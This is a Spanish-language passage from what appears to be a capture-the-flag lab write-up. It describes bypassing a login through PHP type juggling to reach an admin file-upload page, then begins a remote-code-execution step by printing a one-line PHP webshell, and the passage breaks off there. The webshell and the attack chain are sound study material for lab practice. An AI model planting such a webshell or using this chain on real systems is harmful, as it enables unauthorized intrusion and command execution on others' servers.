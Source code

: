 ![](../img/f4c39f9770ba54ee2ffefa7c78b65814.png)

Copiamos y la pegamos en el navegador (sin intercept on), y **accedemos al panel de subida**:

![](../img/f3e635d498d882abecaabee1972cd3e4.png)

### ✅ Resultado

Hemos logrado autenticarnos y acceder a:

```bash
http://10.129.95.184/upload.php
```

Lo que confirma que la autenticación estaba vulnerable a Type Juggling y hemos conseguido acceso al portal **Admin File Uploads** 🌀.

## 🧨 Objetivo: Obtener RCE (ejecución remota de comandos)

### 📤 Paso 1 – Crear una webshell

Usamos una **webshell sencilla en PHP**, como:

```bash
<?php system($_GET['cmd']); ?>
```
